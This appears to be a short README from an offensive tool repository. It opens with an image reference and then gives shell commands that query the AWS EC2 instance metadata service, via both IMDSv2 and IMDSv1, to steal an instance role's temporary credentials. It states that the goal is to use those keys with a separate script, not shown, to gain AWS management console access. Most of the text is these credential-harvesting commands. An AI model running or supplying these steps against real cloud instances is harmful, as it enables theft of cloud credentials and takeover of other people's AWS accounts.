 Grab AWS keys and than use this script to gain managment console access with the access provided by the keys.

### Grabbing creds with IMDSv2
# 1) get IMDSv2 token
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

# 2) get the role name attached to the instance
ROLE_NAME=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/)

# 3) get the temporary credentials JSON
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME

### Grabbing creds with IMDSv1
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/


### Using AWS CLI
# if instance role exists, aws cli uses it automatically; but you can also fetch metadata as above
aws sts get-caller-identity
# To view which creds CLI is using:
aws configure list
